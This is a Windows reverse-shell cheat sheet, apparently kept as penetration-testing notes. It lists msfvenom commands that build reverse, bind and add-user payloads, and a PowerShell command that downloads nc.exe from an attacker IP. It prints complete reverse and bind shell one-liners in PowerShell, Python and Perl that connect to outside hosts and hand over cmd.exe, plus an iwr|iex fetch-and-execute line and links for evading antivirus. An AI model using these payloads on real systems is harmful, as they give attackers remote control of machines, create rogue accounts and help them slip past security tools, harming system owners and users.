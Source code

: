 # Windows Shells 
Remember to check for AV before uploading common payloads! 
- [ ] Can you exec .NET commands or Powershell as well? 
- [ ] Web Shells 
- [ ] Generate a payload - msfvenom or use nc/socat/powercat
- [ ] Upload payload and invoke 
- [ ] Antivirus evasion 

## Test Connection with ping  
    tcpdump -i [interface] icmp   
    ping 127.0.0.1 
    powershell -c "Test-Connection 127.0.0.1"

## Web Shells 
[White winter wolf Linux and Windows web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) 

[Nishang Invoke-Powershell Script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) 
[ConPty shell](https://github.com/antonioCoco/ConPtyShell)  

## Reverse Shell Commands 
Most likely you will need an exe payload as other payloads aren't usually stable / powershell Execution-Policy is often restricted. 
Generate exe with msfvenom, upload nc, socat, powercat. Find upload point / code execution point to download and execute. 

### File Transfers 
Upload pages, certutil, powershell

    powershell Invoke-WebRequest -Uri http://192.168.119.149:8888/nc.exe -OutFile C:\xampp\htdocs\nc.exe  
    
### Msfvenom 

   msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
   msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe	
   msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	
   msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
   msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
   
   
Add a user in windows with msfvenom: 

    msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
   
### Netcat
upload static binary nc.exe and invoke 


    nc.exe -nv 192.168.119.149 53 -e C:\WINDOWS\system32\cmd.exe 

### Powershell 
[Powershell reverse shell scripts](https://github.com/ivan-sincek/powershell-reverse-tcp)  

    from cmd.exe, run powershell -c "payload"

    $client = New-Object System.Net.Sockets.TCPClient("192.168.119.149",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    
    powershell -exec bypass -c "iwr('http://192.168.0.48:8000/Invoke-PowershellTcp.ps1')|iex" 

Bind shell (run on Windows then connect from Kali)

    $listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()
    
    
### Powercat 
Powershell version of netcat 
[Powercat](https://github.com/besimorhino/powercat)  


### Socat   
[reference](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)   
cmd.exe,pipes

### Python  

    C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 53)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
    
    
### Perl 

    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:53");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'  
    
    
## Antivirus Evasion  
[PHP payload encoder](https://www.gaijin.at/en/tools/php-obfuscator#result) 

[Example - obfuscating payload to get a reverse shell on Windows](https://medium.com/@defsecone/evading-windows-defender-using-obfuscation-techniques-2494b2924807) 


## Resources  
https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet

